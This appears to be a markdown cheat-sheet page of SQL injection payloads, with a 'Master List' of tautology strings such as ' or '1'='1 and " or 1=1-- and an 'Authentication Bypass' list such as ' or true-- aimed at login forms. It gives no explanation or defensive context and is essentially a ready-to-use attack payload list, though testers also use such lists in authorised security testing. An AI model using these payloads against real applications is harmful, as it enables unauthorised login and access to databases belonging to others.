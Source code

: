 ## <mark style="color:red;">**SQL Injection**</mark>

**Master List**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

**Authentication Bypass**

```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
```